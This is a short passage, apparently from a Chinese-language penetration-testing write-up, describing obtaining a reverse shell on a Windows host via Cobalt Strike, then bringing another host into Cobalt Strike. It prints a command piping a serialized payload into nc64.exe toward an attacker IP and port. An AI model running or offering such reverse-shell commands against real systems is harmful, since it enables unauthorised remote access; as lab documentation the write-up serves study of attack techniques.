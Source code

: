 ## 反弹shell

使用cs进行执行。  
shell type C:\\phpstudy\_pro\\tmp\\cc66.ser | C:\\phpstudy\_pro\\tmp\\nc64.exe -nv 192.168.22.146 9999  
nc开启监听，成功反弹shell。

[![](assets/1698990322-0cc0862cf8bf5d1462badf2549023d4a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231102173147-a4ebc4d4-7962-1.png)

## data主机上线cs
